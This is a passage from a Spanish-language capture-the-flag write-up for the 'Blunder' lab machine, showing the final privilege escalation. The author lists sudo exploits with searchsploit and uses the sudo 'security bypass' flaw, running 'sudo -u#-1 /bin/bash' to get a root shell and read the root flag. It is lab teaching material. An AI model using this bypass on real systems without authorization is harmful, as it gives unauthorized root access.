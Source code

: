 Vemos que el usuario `shaun`,se encuntra en el grupo `lxd`, asi que podriamos aprovecharnos de eso para convertirnos en `root`, pero en esta ocasión vamos a realizarlo de otra manera ya que si vemos la version de sudo que se esta empleando corresponde a una vulnerable.

```bash
shaun@blunder:/home/hugo$ sudo --version
Sudo version 1.8.25p1
Sudoers policy plugin version 1.8.25p1
Sudoers file grammar version 46
Sudoers I/O plugin version 1.8.25p1
```

Buscando un exploit publico encontramos uno referente a `security bypass` y para versiones menores a la 1.8.27, al ser esta una versión menor podemos usar este exploit.

```bash
❯ searchsploit sudo 1.8.
----------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                       |  Path
----------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
sudo 1.8.0 < 1.8.3p1 - 'sudo_debug' glibc FORTIFY_SOURCE Bypass + Privilege Escalation                                                               | linux/local/25134.c
sudo 1.8.0 < 1.8.3p1 - Format String                                                                                                                 | linux/dos/18436.txt
Sudo 1.8.14 (RHEL 5/6/7 / Ubuntu) - 'Sudoedit' Unauthorized Privilege Escalation                                                                     | linux/local/37710.txt
Sudo 1.8.20 - 'get_process_ttyname()' Local Privilege Escalation                                                                                     | linux/local/42183.c
Sudo 1.8.25p - 'pwfeedback' Buffer Overflow                                                                                                          | linux/local/48052.sh
Sudo 1.8.25p - 'pwfeedback' Buffer Overflow (PoC)                                                                                                    | linux/dos/47995.txt
sudo 1.8.27 - Security Bypass                                                                                                                        | linux/local/47502.py
----------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
```

Revisamos el codigo del exploit y vemos que solo tenemos que ejecutar la siguiente instrucción `sudo -u#-1 /bin/bash`, pero debemos hacerlo como el usuario `hugo` ya que este tenia el privilegio a nivel de `sudoers`.

Una vez ya como el ususario `root` nos dirigimos a su directorio personal y visualizamos la segunda flag `root.txt.`

```bash
hugo@blunder:~$ sudo -u#-1 /bin/bash
root@blunder:/home/hugo# whoami
root
root@blunder:/home/hugo# cd /root
root@blunder:/root# cat root.txt 
dd6d458838b1d2c778b789eeb79ab063
```


